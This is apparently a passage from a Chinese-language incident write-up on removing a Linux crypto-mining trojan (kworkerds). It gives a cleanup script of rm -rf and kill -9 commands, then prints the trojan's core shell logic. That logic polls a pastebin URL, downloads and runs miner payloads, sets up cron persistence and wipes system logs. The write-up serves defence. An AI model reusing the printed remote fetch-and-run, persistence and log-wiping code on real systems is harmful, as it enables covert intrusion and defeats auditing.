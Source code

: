 ```
rm -rf /etc/ld.so.preload

chattr -i /usr/local/bin/dns
rm -rf /usr/local/bin/dns

rm -rf /etc/cron.hourly/oanacroner
rm -rf /etc/cron.daily/oanacroner
rm -rf /etc/cron.monthly/oanacroner
rm -rf /tmp/kworkerds
rm -rf /tmp/.38t9guft0055d0565u444gtjr0
rm -rf /tmp/.a

# 再次 kill 掉进程，防止清理过程中再次启动
ps -ef|grep pastebin |grep -v grep|awk '{print $2}'|xargs kill -9
ps -ef|grep kworkerds|grep -v grep|awk '{print $2}'|xargs kill -9

# 验证进程 kill 成功
ps -ef|grep kworkerds
ps -ef|grep pastebin

# 验证定时任务清理干净
cat /etc/cron.d/root /etc/cron.d/apache /var/spool/cron/root /var/spool/cron/crontabs/root

# 验证相关木马文件删除干净
ls /usr/local/lib/libntpd.so /etc/ld.so.preload /etc/cron.hourly/oanacroner /etc/cron.daily/oanacroner /etc/cron.monthly/oanacroner /tmp/kworkerds /tmp/.38t9guft0055d0565u444gtjr0 /tmp/.a

# 查看当前用户定时任务
crontab -l

# 还原 hosts 配置
sed -i 's/^127.0.0.1 pastebin.com*$//g' /etc/hosts

# 重启再次验证
reboot
```

# 分析
木马的核心代码逻辑如下：

```
update=$( curl -fsSL --connect-timeout 120 https://pastebin.com/raw/TzBeq3AM )
if [ ${update}x = "update"x ];then
	echocron
else
	if [ ! -f "/tmp/.tmph" ]; then
		rm -rf /tmp/.tmph
		python
	fi
	kills
	downloadrun
	echocron
	system
	top
	sleep 10
	port=$(netstat -anp | grep :13531 | wc -l)
	if [ ${port} -eq 0 ];then
		downloadrunxm
	fi
	echo 0>/var/spool/mail/root
	echo 0>/var/log/wtmp
	echo 0>/var/log/secure
```